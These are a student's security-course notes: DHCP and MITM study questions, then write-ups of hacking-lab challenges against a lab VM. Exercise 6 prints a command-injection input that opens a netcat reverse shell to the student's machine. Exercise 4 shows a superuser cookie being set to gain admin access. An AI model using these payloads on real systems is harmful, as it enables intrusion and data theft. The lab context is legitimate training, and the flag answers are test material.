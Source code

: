 
> [!exercise]+ Exercise 1 - DHCP Attack
> Another type of attack that was not included in the workshop is DHCP (dynamic host configuration protocol) based attacks. Do a bit of research into how DHCP works and about some DHCP attacks and answer the following questions.
> 1. What are the 4 packets (messages) that are communicated between the client seeking and IP address and the DHCP server?
> 2. Are the 4 messages Layer 2 unicast or broadcast (be careful not to confuse between Layer 3 broadcast, which is sending to an IP broadcast address like 10.0.2.255, as opposed to Layer 2 broadcast which is sent to MAC address FF:FF:FF:FF:FF:FF).
> 3. Therefore, in a switched network, which of the 4 messages in the DHCP negotiation would the attacker be able to observe?
> 4. Briefly explain what DHCP spoofing and DHCP starvation attacks are executed, and how the two can be used in combination. 
> 5. For an adversary looking to perform MITM, which DHCP configuration option(s) would you try to manipulate? 
> 6. Briefly explain how "DHCP **snooping**" configuration in a switch work to prevent DHCP **spoofing**?


> [!exercise]+ Exercise 2 - MITM Prevention
> 1. Briefly explain (1 or 2 sentences max) how HTTPS can defeat MITM via ARP cache poisoning.
> 2. In the same context, why did Chrome developers decided to display "Not Secure" on HTTP websites?
> 3. In the same context, what's the danger of ignoring a browser error message like this one and clicking on "Continue to this website"?
> 4. Briefly write an explanation that you might provide to your grandparent (or anyone who may not be IT savvy) why they should be careful when connecting to open WiFi hotspots like the ones at airports.



> [!exercise]+ Exercise 3 
> Go to `http://<Your Hacklab VM IP addr>:8081/method.php` to get the secret!
> 
> **Answer:**
> Initially, I tried visiting the site in my browser but only received a hint: `"Hm... you don't seem to be using the correct METHOD. Explore your available OPTIONS."` This made it clear that I should attempt an `OPTIONS` request via `curl`.
> 
> ```bash
> curl -X OPTIONS http://192.168.56.113:8081/method.php
> ```
> 
> This returned the flag:
> ```
> csf2021_{helper-evaluate-mammogram}
>```


> [!exercise]+ Exercise 4
> Access `http://192.168.56.113:8081/admin.php` to get the secret!
> 
> **Answer:**
> I visited the page and clicked on the request button, which revealed the hint: `"Sorry, only superadmins are allowed to see the secret."` This led me to inspect the cookies via the browser’s developer tools.
> 
> I adjusted the `superuser` cookie to `true` and clicked on the request button again:
> 
> ```
> Welcome Super User! Here is the secret: csf2021_{client-postbox-amid}
> ```
> 
> ![[Pasted image 20240502052455.png]]


Understood. Here's the updated version:

> [!exercise]+ Exercise 6
> Go to `http://<Your Hacklab VM IP addr>:8083/doa.php` to get the secret!
> 
> **Answer:**
> 
> Upon navigating to the webpage and seeing the form allowing me to check if a host is dead or alive by entering an IP address, I suspected a possible command injection vulnerability.
> 
> Before attempting to exploit the vulnerability, I set up a netcat listener on my local machine using:
> 
> ```
> nc -lvp 1234
> ```
> 
> Crafting a malicious command, I entered:
> 
> ```
> 127.0.0.1 & nc -e /bin/sh 192.168.117.124 1234
> ```
> 
> This command instructed the server to establish a reverse shell connection to my local machine on port 1234.
> 
> After setting up the listener, I submitted the form with the injected command and awaited the connection on my local machine.
> 
> Upon successful exploitation of the vulnerability, I gained a reverse shell connection to the server.
> 
> Inside the reverse shell, I navigated the filesystem to locate the secret file. Initially, I used the `ls -a` command to list all files, including hidden ones, and discovered `.the_secret_file`.
> 
> ```
> ls -a
> ```
> 
> I then used the `cat` command to reveal its contents:
> 
> ```
> cat .the_secret_file
> ```
> 
> **Secret Revealed:**
> ```
> ___________________________________________
> / csf2024s1_{botchier-disquiparancy-propp \
> \ er}                                     /
>  -----------------------------------------
>         \   ^__^
>          \  (oo)\_______
>             (__)\       )\/\
>                 ||----w |
>                 ||     ||
> ```
> 
